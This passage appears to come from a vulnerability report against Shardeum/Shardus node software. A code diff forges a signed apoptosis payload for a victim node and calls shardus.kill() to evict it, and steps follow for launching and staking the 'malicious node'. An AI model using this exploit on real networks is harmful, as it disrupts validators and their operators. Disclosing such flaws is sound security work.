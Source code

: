 ```diff
+        sign: targetSig
+      }
+
+      // res.write(`sending the apop behalf of victim node to kill it ${Utils.safeStringify(apopPayload)}`)
+
+      shardus.kill(apopPayload);
+
+      const status = {
+        verfied : crypto.verifyObj(apopPayload),
+        apopPayload: apopPayload
+      }
+
+      return res.json(Utils.safeJsonParse(Utils.safeStringify(status)))
       } catch (error) {
         /* prettier-ignore */ if (logFlags.error) console.error('Error in processing query-certificate request:', error)
         res.status(500).json({ error: 'Internal Server Error' })
diff --git a/src/storage/accountStorage.ts b/src/storage/accountStorage.ts
index 52c5e58..b72b9d2 100644
--- a/src/storage/accountStorage.ts
+++ b/src/storage/accountStorage.ts
@@ -174,6 +174,15 @@ export async function debugGetAllAccounts(): Promise<WrappedEVMAccount[]> {
   //return null
 }
 
+export async function getAllAccounts(): Promise<WrappedEVMAccount[]> {
+  if (ShardeumFlags.UseDBForAccounts === true) {
+    return (await storage.getSelectAllAccountsEntry()) as unknown as WrappedEVMAccount[]
+  } else {
+    return Object.values(accounts)
+  }
+  //return null
+}
+
 export async function clearAccounts(): Promise<void> {
   if (ShardeumFlags.UseDBForAccounts === true) {
     //This lazy init is not ideal.. we only know this is called because of special knowledge
diff --git a/src/storage/storage.ts b/src/storage/storage.ts
index 8ba2251..3750d62 100644
--- a/src/storage/storage.ts
+++ b/src/storage/storage.ts
@@ -313,5 +313,14 @@ class Storage {
       throw new Error(e)
     }
   }
+
+  async getSelectAllAccountsEntry(): Promise<unknown> {
+    this._checkInit()
+    try {
+      return await this._read(this.storageModels.accountsEntry, null, null)
+    } catch (e) {
+      throw new Error(e)
+    }
+  }
 }
 export default Storage
```
- Link @shardus/core to the shardeum and launch the malicious node
- Launch the malicious node
- Stake the malicious node and wait for it to go active
- Once It is active, malicious node is ready to be used for attack